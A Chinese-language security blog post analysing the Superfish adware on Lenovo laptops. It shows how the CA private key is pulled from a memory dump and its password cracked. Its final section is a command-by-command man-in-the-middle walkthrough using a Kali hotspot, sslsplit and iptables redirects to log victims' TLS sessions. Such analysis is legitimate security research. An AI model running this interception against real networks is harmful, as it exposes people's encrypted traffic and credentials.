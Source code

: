 # 我从Superfish事件中学到的

0x00 前言 & superfish事件
=====================

* * *

Superfish这个事件，国内外报道的都很多，不过我个人感觉国内对漏洞事件的敏感度挺高，都是抢先第一个翻译报道，但是很少看到细节分析。国外的研究者在自己的博客有一些分析，我提取出来和大家分享学习，有理解不对的地方还希望指正。

联想笔记本用户从去年年中开始在官方论坛上报告他们的电脑预装了广告软件Superfish，Superfish会在用户电脑上安装自签名证书，劫持用户浏览的HTTPS/HTTP网页，劫持搜索结果，在Google搜索页面及其它网站上注入广告。联想客服代表Mark Hopkins证实Superfish是该公司预装在电脑中的，用户投诉之后他们已从系统中将该软件临时移除,这次事件给联想公司带来一连串公关灾难,联想宣布到Windows 10发布时，上市的联想电脑将会运行纯净的操作系统，不再捆绑第三方的臃肿软件（bloatware）,同时向受Superfish影响的客户提供6个月的McAfee LiveSafe安全软件服务,并提供移除工具（https://github.com/lenovo-inc/superfishremoval）。

0x01 superfish软件对用户上网的影响
========================

* * *

Superfish软件在安装的时候默认会把文件释放到 C:\Program Files\Lenovo\VisualDiscovery，然后执行下面命令

```
run.exe 30000 VisualDiscovery.exe /Auto /Service
run.exe 30000 C:\WINDOWS\system32\sc.exe start VisualDiscovery
run.exe 30000 VDWFPInstaller.exe install

```

superfish基于Komodia的引擎，他会注册服务，并且安装驱动，这些驱动文件也都有自己的签名，不过已经过期了。安装目录有个VDWFP.pdb文件，是使用WFP(Windows Filtering Platform)实现连接重定向的，也会在注册表添加HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\VDWFP项，包括要劫持的应用程序列表，不劫持的IP地址，劫持端口等信息。还会开放23154，23156，23160端口实现代理，方便中间人攻击。SuperfishCert.dll文件的作用是安装恶意证书到应用程序，VisualDiscovery.exe使用OpenSSL的静态链接文件，包含公共密钥是私有密钥，但是我逆向基础差，没有从这里看到，而是通过dump出的内存找到的，下一节会有介绍。

![enter image description here](http://drops.javaweb.org/uploads/images/3e9efb3b13ed06a53346d9f68d7af63f32527103.jpg)

此时你在访问HTTPS网站的时候，浏览器里显示的SSL证书的颁发颁发机构(CA)会是superfish，而不是常见的VeriSign，如图：

![enter image description here](http://drops.javaweb.org/uploads/images/779fca1c32708ec208d71ee87b6910605fbaa725.jpg)

Superfish的目的是在用户电脑上安装自签名证书，劫持用户浏览的HTTPS/HTTP网页，插入广告。从上可以知道superfish本身也是认证机构(CA)，如果我们能够得到CA的私钥， 自签名证书，还能做更多有意思的事情。

0x02 提取CA私钥
===========

* * *

首先使用procdump工具dump出VisualDiscovery.exe进程的内存信息

```
procdump -ma VisualDiscovery.exe super.dmp

```

然后使用strings小工具提取super.dmp 中的字符串，如图

```
Strings.exe super.dmp > stringsuper.txt

```

![enter image description here](http://drops.javaweb.org/uploads/images/fa54c2a0c716e2f401631bc4710f0652d6afb59e.jpg)

在stringsuper.txt文件中搜索"PRIVATE KEY"，可以看到证书信息，把相关信息COPY出来（https://github.com/robertdavidgraham/pemcrack/blob/master/test.pem），然后用openssl导入证书和密钥,确提示输入密码

![enter image description here](http://drops.javaweb.org/uploads/images/2f88d07e9276d9fb45ffc08d24b280287c74870d.jpg)

老外有放出来一个单线程的破解工具（https://github.com/robertdavidgraham/pemcrack），还是使用stringsuper.txt里的单词当字典进行破解

提取字典

```
grep "^[a-z]*$" stringsuper.txt | sort | uniq > super.dict

```

编译工具，破解

![enter image description here](http://drops.javaweb.org/uploads/images/fa9ab032f4b4a2222ec06db378563d253a2c97b0.jpg)

得到密码是komodia

![enter image description here](http://drops.javaweb.org/uploads/images/c6c3ac05b8062e99b2a1ca7684bc3a9291d2a875.jpg)

0x03 作恶
=======

* * *

得到认证机构(CA)的私钥后，任何人都可以以该机构的身份颁发证书了。比如利用superfish的CA私钥给恶意软件做签名逃避主动防御和杀毒，mcafee已经发现有真实的互联网攻击了（https://blogs.mcafee.com/mcafee-labs/superfish-root-certificate-used-sign-malware）

![enter image description here](http://drops.javaweb.org/uploads/images/43028b8540ea108f9c154c358f542f9459cfec48.jpg)

其他的攻击利用场景：受害者机器已经安装了superfish软件,在一个不可信的网络内（比如共享WIFI），自己的上网流量可以被重定向（比如攻击者通过ARP/修改受害者机器网关/修改受害者机器的DNS配置等方法）；攻击者的平台使用的是KALI，使用hostapd做了一个无线热点，然后用sslsplit(https://github.com/droe/sslsplit)做中间人劫持，sslsplit比mitmproxy好的地方是，他还能支持其他基于TLS/SSL的流量，比如像FTPS,SMTP OVER SSL，IMAP OVER SSL等，操作步骤如下：

导出证书和私钥

```
root@kali:~# openssl rsa -in test.pem -out ca.key
root@kali:~#cat ca.cer
-----BEGIN CERTIFICATE-----
MIIC9TCCAl6gAwIBAgIJANL8E4epRNznMA0GCSqGSIb3DQEBBQUAMFsxGDAWBgNV
BAoTD1N1cGVyZmlzaCwgSW5jLjELMAkGA1UEBxMCU0YxCzAJBgNVBAgTAkNBMQsw
CQYDVQQGEwJVUzEYMBYGA1UEAxMPU3VwZXJmaXNoLCBJbmMuMB4XDTE0MDUxMjE2
MjUyNloXDTM0MDUwNzE2MjUyNlowWzEYMBYGA1UEChMPU3VwZXJmaXNoLCBJbmMu
MQswCQYDVQQHEwJTRjELMAkGA1UECBMCQ0ExCzAJBgNVBAYTAlVTMRgwFgYDVQQD
Ew9TdXBlcmZpc2gsIEluYy4wgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAOjz
Shh2Xxk/sc9Y6X9DBwmVgDXFD/5xMSeBmRImIKXfj2r8QlU57gk4idngNsSsAYJb
1Tnm+Y8HiN/+7vahFM6pdEXY/fAXVyqC4XouEpNarIrXFWPRt5tVgA9YvBxJ7SBi
3bZMpTrrHD2g/3pxptMQeDOuS8Ic/ZJKocPnQaQtAgMBAAGjgcAwgb0wDAYDVR0T
BAUwAwEB/zAdBgNVHQ4EFgQU+5izU38URC7o7tUJml4OVoaoNYgwgY0GA1UdIwSB
hTCBgoAU+5izU38URC7o7tUJml4OVoaoNYihX6RdMFsxGDAWBgNVBAoTD1N1cGVy
ZmlzaCwgSW5jLjELMAkGA1UEBxMCU0YxCzAJBgNVBAgTAkNBMQswCQYDVQQGEwJV
UzEYMBYGA1UEAxMPU3VwZXJmaXNoLCBJbmMuggkA0vwTh6lE3OcwDQYJKoZIhvcN
AQEFBQADgYEApHyg7ApKx3DEcWjzOyLi3JyN0JL+c35yK1VEmxu0Qusfr76645Oj
1IsYwpTws6a9ZTRMzST4GQvFFQra81eLqYbPbMPuhC+FCxkUF5i0DNSWi+kczJXJ
TtCqSwGl9t9JEoFqvtW+znZ9TqyLiOMw7TGEUI+88VAqW0qmXnwPcfo=
-----END CERTIFICATE-----

```

在kali上安装sslsplit

```
root@kali:~# git clone https://github.com/droe/sslsplit
root@kali:~# cd  sslsplit/
root@kali:~/sslsplit# make -j 10
root@kali:~/sslsplit# make install

```

SSLsplit会监听2个端口，8080（用于非SSL连接），8443（用于SSL连接），为了能够通过这2端口转发流量到受害者的机器，还需要用iptables做下端口重定向。

```
root@kali:~# sysctl -w net.ipv4.ip_forward=1
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
root@kali:~# iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443

```

然后攻击者执行

```
root@kali:~# sslsplit -D -l connections.log -S /var/log/sslsplit -k ca.key -c ca.cer ssl 0.0.0.0 8443

```

![enter image description here](http://drops.javaweb.org/uploads/images/a000a8cff206798790ebaad2486b096fa6b75fdb.jpg)

这样受害者再访问有HTTPS的网站时，所有会话信息会保存到/var/log/sslsplit。

这个思路也有被用在bkpctf中 (http://mweissbacher.com/blog/2015/03/01/boston-key-party-2015-kendall-challenge-superfish/)

0x04 参考
=======

* * *

```
<<图解密码技术>>
http://blog.kaspersky.com/lenovo-pc-with-adware-superfish-preinstalled/
http://www.0xebfe.net/blog/2015/02/20/the-analysis-of-superfish-adware/
http://blog.erratasec.com/2015/02/extracting-superfish-certificate.html
http://blog.erratasec.com/2015/02/exploiting-superfish-certificate.html
http://kinozoa.com/blog/exploiting-superfish-subterfuge/
http://blog.trendmicro.com/trendlabs-security-intelligence/extended-validation-certificates-warning-against-mitm-attacks/

```